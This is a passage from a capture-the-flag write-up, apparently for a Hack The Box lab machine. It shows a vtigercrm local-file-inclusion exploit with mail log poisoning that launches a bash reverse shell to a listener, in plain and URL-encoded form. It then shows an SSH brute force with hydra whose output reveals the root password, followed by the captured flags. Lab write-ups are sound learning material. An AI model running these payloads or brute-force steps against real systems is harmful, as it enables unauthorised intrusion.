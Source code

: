 		Original    :: /bin/bash -i >& /dev/tcp/10.10.14.2/4444 0>&1
		URL ENcoded :: %2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.2%2F4444%200%3E%261
		
		```
	10. Invoke reverse shell
		```
		vtigercrm/graph.php?current_language=../../../../../../../..//var/mail/asterisk%00&module=Accounts&action&c=%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.2%2F4444%200%3E%261ex
		```
	11. Shell Obtained
		![]({{ page.img_path }}Pasted%20image%2020220823032242.png)
	12. More practice w/ the exact exploit
		- [Vulnhub Symfonos 1 - Mail Log Poisoning](https://yufongg.github.io/posts/Symfonos-1/#tcp80-http---wordpress-plugin-exploit)


## TCP/22 (SSH) - Bruteforce
1. [Fix](https://unix.stackexchange.com/questions/340844/how-to-enable-diffie-hellman-group1-sha1-key-exchange-on-debian-8-0) SSH error 
	```
	Error: Unable to negotiate with 123.123.123.123 port 22: no matching key exchange method found. Their offer: diffie-hellman-group1-sha1
	
	subl ~/.ssh/config
	Host 10.10.10.7
	    KexAlgorithms +diffie-hellman-group1-sha1
	```
2. Bruteforce w/ `hydra`
	```
	┌──(root💀kali)-[~/htb/beep/10.10.10.7/exploit]
	└─# hydra -L ssh_username -P password.txt ssh://$ip -VI -t 1
	Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
	
	Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-23 02:10:36
	[DATA] max 1 task per 1 server, overall 1 task, 6 login tries (l:2/p:3), ~6 tries per task
	[DATA] attacking ssh://10.10.10.7:22/
	[ATTEMPT] target 10.10.10.7 - login "fanis" - pass "amp109" - 1 of 6 [child 0] (0/0)
	[ATTEMPT] target 10.10.10.7 - login "fanis" - pass "amp111" - 2 of 6 [child 0] (0/0)
	[ATTEMPT] target 10.10.10.7 - login "fanis" - pass "jEhdIekWmdjE" - 3 of 6 [child 0] (0/0)
	[ATTEMPT] target 10.10.10.7 - login "root" - pass "amp109" - 4 of 6 [child 0] (0/0)
	[ATTEMPT] target 10.10.10.7 - login "root" - pass "amp111" - 5 of 6 [child 0] (0/0)
	[ATTEMPT] target 10.10.10.7 - login "root" - pass "jEhdIekWmdjE" - 6 of 6 [child 0] (0/0)
	[22][ssh] host: 10.10.10.7   login: root   password: jEhdIekWmdjE
	
	```
	- Lowered threads because there is some sort of bruteforce prevention
	- `root:jEhdIekWmdjE`
3. User & Root Flag
	```
	19afda200dff5c746e0e0081fcdd64f3
	c28417887cd7e8cc9cf0ffde613de7a7
	```
	![]({{ page.img_path }}Pasted%20image%2020220823021626.png)
	